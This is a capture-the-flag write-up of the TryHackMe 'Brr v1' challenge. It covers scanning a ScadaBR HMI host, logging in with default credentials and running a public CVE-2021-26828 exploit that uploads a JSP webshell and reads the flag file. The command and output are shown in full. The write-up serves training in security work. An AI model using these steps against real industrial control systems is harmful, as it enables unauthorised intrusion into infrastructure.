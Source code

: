 ```yaml
---
layout: default
title: "THM: Brr v1 (Industrial Intrusion CTF 2025)"
date: 2025-06-27
tags: [ctf, tryhackme, scadabr, rce, windows, web, writeup]
---
```


"A forgotten HMI node deep in Virelia’s wastewater control loop 
still runs an *outdated instance*, 
forked from an old Mango M2M stack."

From the task description, we can start thinking about exploiting
an already discovered vuln within old infrastructure.

## 1. Initial Enumeration
Let's start our enumeration:

```bash
$ nmap 10.10.136.240 -T5    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 14:16 MDT
Warning: 10.10.136.240 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.136.240
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5901/tcp open  vnc-1
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
```

Since the current category is Web, let's access port 80 and 8080 on our broswer.

> Port 80: *Error response*
> 
Error code: 405
Message: Method Not Allowed.
Error code explanation: 405 - Specified method is invalid for this resource.

> Port 8080: *Successful interaction: redirection to /ScadaBR*
Welcome to ScadaBR CTF
Redirecting you to /ScadaBR...

We are presented with a login screen.

Let's try some default credentials:
admin / admin

Success! 

## 2. Exploitation
Let's try to find some exploit online to gain access to the server hosting ScadaBR.

Looking up "scadabr exploit" on Google returns a working PoC exploit with a reverse shell:
[➡️ POC CVE-2021-26828_ScadaBR_RemoteCodeExecution] (https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)


This is quite convenient, since it's an all-in-one package.
Noticed the TTL during pinging was ~64 → probably a Windows host.
Let's use WinScada_RCE.py ...

The Python script is written in Python2, but I modified the script to be able to run it with Python3.
└─$ python3 WinScada_RCE.py 10.10.136.240 8080 admin admin 

## 3. Execution
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|    _________                  .___     ____________________       |
|   /   _____/ ____ _____     __| _/____ \______   \______   \      |
|   \_____  \_/ ___\__  \   / __ |\__  \ |    |  _/|       _/       |
|   /        \  \___ / __ \_/ /_/ | / __ \|    |   \|    |   \      |
|  /_______  /\___  >____  /\____ |(____  /______  /|____|_  /      |
|          \/     \/     \/      \/     \/       \/        \/       |
|                                                                   |
|    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload (CVE-2021-26828)  |
|    > Exploit Author : Fellipe Oliveira                            |
|    > Exploit for Windows Systems                                  |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Trying to authenticate http://10.10.136.240:8080/ScadaBR/login.htm...
[+] Successfully authenticated! :D~

[>] Attempting to upload .jsp Webshell...
[>] Verifying shell upload...

[+] Upload Successfuly!
[+] Webshell Found in: http://10.10.136.240:8080/ScadaBR/uploads/1.jsp
[>] Spawning fake shell...
```

We have a reverse shell!

```cmd
# dir

Command: dir
bin  common  conf  logs  root.txt  server  shared  webapps  work

# cat root.txt
Command: cat root.txt
THM{flag}
```
